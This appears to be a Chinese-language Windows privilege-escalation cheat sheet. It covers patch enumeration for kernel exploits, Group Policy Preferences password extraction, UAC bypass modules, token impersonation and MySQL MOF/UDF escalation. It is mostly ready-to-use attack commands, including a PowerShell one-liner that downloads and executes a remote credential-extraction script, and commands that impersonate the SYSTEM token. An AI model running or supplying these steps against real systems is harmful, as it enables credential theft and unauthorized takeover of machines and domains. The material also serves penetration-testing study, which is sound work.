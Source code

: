 chcp 65001

[参考指南](https://cloud.tencent.com/developer/article/1771226)
## 系统内核溢出提权

查找补丁

```copy
#手工查找补丁情况 
systeminfo 
Wmic qfe get Caption,Description,HotFixID,InstalledOn 
#MSF后渗透扫描 
post/windows/gather/enum_patches post/multi/recon/local_exploit_suggester 
#windows exploit suggester https://github.com/AonCyberLabs/Windows-Exploit-Suggester #powershell中的sherlock脚本 Import-Module C:\Sherlock.ps1 #下载ps1脚本，导入模块 Find-AllVulns 
#Empire内置模块 Empire框架也提供了关于内核溢出漏洞提权的漏洞利用方法 usemodule privesc/powerup/allchecks 
execute 
```
查找到缺失的补丁后，对照相应的系统版本，查找对应的exp

```copy
https://github.com/SecWiki/windows-kernel-exploits https://bugs.hacking8.com/tiquan/ https://github.com/Heptagrams/Heptagram/tree/master/Windows/Elevation 
https://www.exploit-db.com/ https://i.hacking8.com/tiquan/ ...........
```

## 系统配置错误提权

## 组策略首选项提权

简介：Windows 2008 Server引入了一项新功能：策略首选项，组策略首选项使管理员可以部署影响域中计算机/用户的特定配置，通过在组策略管理控制台中配置的组策略首选项，管理员可以推出多种策略，例如，当用户登录其计算机时自动映射网络驱动器，更新内置管理员帐户的用户名或对注册表进行更改。

##### SYSVOL：

SYSVOL是AD(活动目录)里面一个存储域公共文件服务器副本的共享文件夹，所有的认证用户都可以读取。SYSVOL包括登录脚本，组策略数据，以及其他域控所需要的域数据，这是因为SYSVOL能在所有域控里进行自动同步和共享。

所有的组策略均存储在如下位置：

```javascript
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```

复制

##### 组策略偏好GPP

win2008发布了GPP(Group Policy Preferences)，其中GPP最有用的特性，是在某些场景存储和使用凭据，其中包括：映射驱动（Drives.xml）创建本地用户数据源（DataSources.xml）打印机配置（Printers.xml）创建/更新服务（Services.xml）计划任务（ScheduledTasks.xml）更改本地Administrator密码

为方便对所有机器进行操作，网络管理员会使用域策略进行统一的配置和管理，那么所有机器的本地管理员密码就是一样的，造成了即使不知道密码的情况下也能修改组策略首选项的密码，也可以通过脚本破解组策略首选项文件中密码的漏洞。

利用手法：

```javascript
#Powershell获取cpassword
Get-GPPPassword.ps1

#PowerSploit 的 Get-GPPPassword模块 检索通过组策略首选项推送的帐户的明文密码和其他信息。
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1');Get-GPPPassword"Import-Module .\Get-GPPPassword.ps1;Get-GPPPassword
kali gpp-decrypt命令破解密码

#Msf
run post/windows/gather/credentials/gpp

#Empire
usemodule privesc/gpp
```

## Byass UAC 提权

```copy
#Msf 
exploit/windows/local/ask #弹出UAC确认窗口，点击后获得system权限 exploit/windows/local/bypassuac #此模块将通过进程注入使用可信任发布者证书绕过Windows UAC，它将生成关闭UAC标志的第二个shell。 exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。如果指定exe::custom，应在单独的进程中启动 payload 后调用ExitProcess（） 
exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe应用程序时调用的自定义命令来绕过Windows 10 UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定exe:custom，则应在单独的进程中启动payload后调用ExitProcess（）。 exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（） 
exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL,这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项,这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件,因此，如果cmd.exe访问受到限制，此模块将无法正常运行。 #Powershell 
Invoke-PsUACme 
#Empire 
usemodule privesc/bypassuac 
usemodule privesc/bypassuac_wscript 
#cs 
uac-dll 
uac-token-duplication ....
```

## 令牌窃取

MSF
在获取到 Meterpreter Shell 后，使用以下命令获取令牌
```copy
load incognito
list_tokens -u
```
这里有两种令牌，一个是 Delegation Tokens 即授权令牌，还有一种是 Impersonation Tokens 即模拟令牌。前者支持交互式登录比如远程桌面，后者支持非交互的会话。

令牌获取的数量取决于获取到 Shell 的权限等级。

如果已经获取到了 SYSTEM 权限的令牌，那么攻击者就可以伪造这个令牌，拥有对应的权限。
```copy
impersonate_token "NT AUTHORITY\SYSTEM"
```

Rotten Potato 本地提权




## 数据库提权

### MOF提权
简介：MOF文件是mysql数据库的扩展文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做”托管对象格式”，其作用是每隔五秒就会去监控进程创建和死亡，因为MOF文件每五秒就会执行，且是系统权限，所以如果我们有权限替换原有的mof文件，就能获得system权限

### UDF提权
简介：UDF,user defined funcion,即用户自定义函数，用户可以通过自己增加函数对mysql功能进行扩充，文件后缀为.dll。
